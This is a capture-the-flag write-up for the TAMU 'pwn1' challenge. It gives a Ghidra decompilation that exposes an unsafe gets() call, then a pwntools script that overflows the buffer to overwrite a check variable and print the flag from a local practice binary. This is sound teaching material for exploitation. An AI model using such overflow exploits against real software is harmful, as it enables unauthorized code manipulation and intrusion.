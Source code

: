 # pwn1

[Link to binary](https://github.com/guyinatuxedo/nightmare/blob/master/modules/04-bof_variable/tamu19_pwn1/pwn1)

---

```
~/Downloads > ./pwn1 
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
```

So it's another prompt. This time around, `strings` gives us useful info:

```
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
```

So it seems like there are actually three questions instead of just one. `strings` gives us the answers to the first two already.

```
~/Downloads > ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
```

We still don't know the secret. Ghidra to the rescue!

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  uint local_18;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see."
      );
  puts("What... is your name?");
  fgets(local_43,43,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,43,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == 0xdea110c8) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

This is very similar to the previous challenge: `gets` reads bytes into `local_43` until it encounters a newline. So we can simply fill the buffer with 43 random bytes and then overflow into `local_18`.

```python
from pwn import *

p = process("./pwn1")

p.sendline("Sir Lancelot of Camelot")
p.sendline("To seek the Holy Grail.")
p.sendline(43 * b" " + bytes.fromhex("dea110c8")[::-1])
print(p.recvall().decode())
```

```
~/Downloads > python pwn_pwn1.py 
[+] Starting local process './pwn1': pid 21515
[+] Receiving all data: Done (204B)
[*] Process './pwn1' stopped with exit code 0 (pid 21515)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
Dear{pwn1}
```

The binary reads a `flag.txt` because this binary was supposed to run on a
server and serve the prompt on a TCP tunnel. I created a fake `flag.txt` to
replicate the behaviour.
